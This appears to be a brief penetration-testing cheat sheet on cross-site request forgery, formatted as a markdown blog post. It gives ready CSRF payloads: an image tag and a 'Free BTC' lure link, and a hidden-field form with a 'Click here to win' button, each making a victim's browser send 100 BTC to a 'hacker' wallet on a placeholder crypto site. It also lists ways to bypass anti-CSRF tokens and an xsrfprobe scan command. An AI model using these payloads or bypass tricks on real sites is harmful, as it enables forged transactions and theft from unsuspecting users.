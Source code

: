 ```yaml
---
layout: post
title: "csrf/xsrf"
keywords: "csrf, xsrf, cross-site request forgery"
---
```

#### GET

```
<img src="http://cryptosite.com/buy.php?wallet=hacker&amount=100&type=BTC" />
<a href="http://cryptosite.com/buy.php?wallet=hacker&amount=100&type=BTC">Free BTC</a>
```

#### POST

```
<form action="http://cryptosite.com/buy.php" method="POST">
    <input type="hidden" name="wallet" value="hacker">
    <input type="hidden" name="amount" value="100">
    <input type="hidden" name="type" value="BTC">
    <input type="submit" value="Click here to win">
</form>
```

#### Bypass Protection

1. Try remove the `xsrf_token` completely
2. Reusable? Guess the xsrf token eg. `base64(user_id)` (try decode in CyberChef)

#### XSRF Probe
```
xsrfprobe -u <url>/<endpoint>
```